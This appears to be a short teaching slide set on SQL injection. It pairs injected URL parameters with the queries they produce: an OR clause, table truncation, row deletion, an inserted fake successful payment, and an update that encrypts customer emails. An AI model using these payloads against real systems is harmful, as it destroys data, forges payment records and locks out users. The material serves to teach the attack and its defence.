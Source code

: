 

---

```
http://mydomain.com/products?id=1" OR id="2"
```

```SQL
SELECT * FROM products WHERE id = "1" OR id = "2";
```



---

# Truncate a table

```SQL
-- http://mydomain.com/products?id=1"; TRUNCATE TABLE products; -- //
SELECT * FROM products WHERE id = "1"; TRUNCATE TABLE products; --//";
```

# Delete a row

```SQL
-- http://mydomain.com/products?id=1"; DELETE FROM products WHERE id="1"; -- //
SELECT * FROM products WHERE id = "1"; DELETE FROM products WHERE id="1"; --//";
```



---

# Insert a row

```SQL
-- http://mydomain.com/products?id=1"; INSERT INTO payments(orderid, success) VALUES("123", "yes"); -- //
SELECT * FROM products WHERE id = "1"; INSERT INTO payments(orderid, success) VALUES("123", "yes"); --//";
```



---

# Encrypt

```SQL
UPDATE customers SET email = AES_ENCRYPT(email, PRIVATEKEY);
```



---
